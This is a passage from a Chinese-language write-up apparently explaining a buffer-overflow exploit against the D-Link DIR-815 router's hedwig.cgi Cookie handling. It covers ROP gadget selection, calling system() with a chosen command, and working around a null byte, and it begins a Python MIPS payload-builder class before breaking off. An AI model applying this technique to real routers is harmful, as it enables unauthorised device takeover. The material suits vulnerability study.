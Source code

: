 ![](/images/D-LINK DIR-815多次溢出漏洞/1752587186234.png)

选择0x159cc的指令。该指令序列首先将SP+0x10（动调）地址存入寄存器S5中，而在偏移0x159EO处将$S5作为参数存入
Sa0，也就是说，这里需要将第一步得到的system地址填充到$So中，然后在$SP+0x10处填充需要执行的命令，即可实现对system(""command")函数的调用。

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186331.png)

  

因为 system地址的最低位为0x00，而在 hedwig_main获取Cookie的过程中，也没有对这部分数据进行解码，所以，试图通过访问
hedwig.cgi时对Cookie进行编码来避开0x00是不可能的，这就使 sprintf函数可能被截断，造成缓冲区溢出失败。为了避开
`0x00`，写入时- 1 ，后面再找一个 gadget 加一即可

  

`hedwigcgi_main()` 结尾部分：

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186447.png)

修改


​    
​    $s0  
​    $s1  
​    $s2  
​    $s3  
​    $s4  
​    $s5  
​    $s6  
​    $s7  
​    $fp  
​    $ra <== 返回地址

ROP的思路

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186551.png)

  


​    
​    from pwn import *  
​    from MIPSPayload import MIPSPayload  
​    import string, random, sys  
​    class MIPSPayload:  
​        BADBYTES = b"\x00"  
​        LITTLE = "little"  
​        BIG = "big"  
​        FILLER = b"A"  
​        BYTES = 4  
​        def __init__(self, elfbase:int, endian:str = LITTLE, badbytes: bytes = BADBYTES):  
​            self.elfbase = elfbase  
​            self.badbytes = badbytes  
​            self.endian = endian  
​            self.payload = bytes()  
​      
```python
    def rand_text(self, size):  
        table = (string.ascii_letters + string.digits).encode()  
        return bytes(random.choices(table, k=size))  
  
    def Add(self, data):  
        if type(data) is bytes:  
            self.payload += data  
        else:  
            raise TypeError("%s is no support type" % type(data))  
  
    def Address(self, offset, base=None):  
```